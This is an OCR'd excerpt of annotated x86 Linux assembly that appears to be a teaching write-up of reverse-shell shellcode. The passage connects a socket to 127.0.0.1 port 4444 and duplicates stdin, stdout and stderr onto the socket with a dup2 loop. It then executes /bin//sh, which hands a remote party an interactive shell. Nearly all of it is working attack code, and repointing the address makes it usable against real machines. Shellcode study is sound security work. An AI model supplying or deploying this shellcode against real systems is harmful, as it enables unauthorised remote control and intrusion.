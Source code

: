 ```
	mov    edx,esp		; setting EDX to pointer of sockaddr struct				: 	[connect --> REF5]
	push   0x10		; pushing stocketlen_t addrlen onto stack - 0x10 == 16 bytes - 0(0,0,1)	:	[connect --> REF5]
	push   edx		; pushing address of sockaddr/struct to memory - 0(0,1,1)		:	[connect --> REF5]
	push   esi		; pushing sockfd onto stack - 0(1,1,1)					: 	[connect --> REF5]
	mov    ecx,esp		; setting ECX to address of parameters (located on stack) - 1(1,1,1)	:	[connect --> REF5]
	int    0x80		; calling socketcalll(SYS_CONNECT,(sockfd,(AF_INET(0x2),127.0.0.1,4444),addrlen(16 bytes))


dup2_setup:
	; [+] dup2(): setting stdin, stdout, stderr propterties to sockfd: (0x2,0x1,0x0)
	; int dup2(int oldfd, int newfd);
	; EAX = dup2
	; EBX = sockfd
	; ECX = (0x2,0x1,0x0)-1) decrementing loop
	xor    ecx,ecx	; 
	mov    cl,0x2	; loop counter for dup2. decrementing loop will look like: (0x2,0x1,0x00)
dup2_loop:
	push   0x3f	; using push/pop this time for fun. same as using mov eax,0x3f		:	[vim /usr/include/i386-linux-gnu/asm/unistd_32.h]
	pop    eax	; setting EAX to dup2() syscall						:	[dup2 --> REF6]
	int    0x80	; [*] Calling: dup2(sockfd, (stderr,stdout,stdin))
	dec    ecx	; decrementing loop counter for each iteration
	jns    dup2_loop;  loop up to dup2_loop if SF=0 (If ECX is positive int (SF=0) then loop, else if negative (0,-1 etc) then (SF=1) continue down)


ExecveShell:
	; [+] execve(): executing /bin//sh	
	; int execve(const char *pathname, char *const argv[], char *const envp[])
	; EAX = execve
	; EBX = /bin//sh
	; ECX = args followed by 0x00
	xor    eax,eax		;
	mov    al,11		; setting EAX to execve syscall
	xor    ebx,ebx		;
	push   ebx		; execve requires NULLBYTE after arguments (0x00)		:	[execve --> REF7]
	push   0x68732f2f 	; sh//
	push   0x6e69622f 	; nib/ - Pushing /bin//sh onto stack in reverse for EBX		:	[execve --> REF7]
	mov    ebx,esp		; setting EBX to address of /bin//sh
	xor    ecx,ecx		;
	xor    esi,esi		;
	xor    edx,edx
	int    0x80		; [*] Calling: execve(/bin//sh0x00)
```

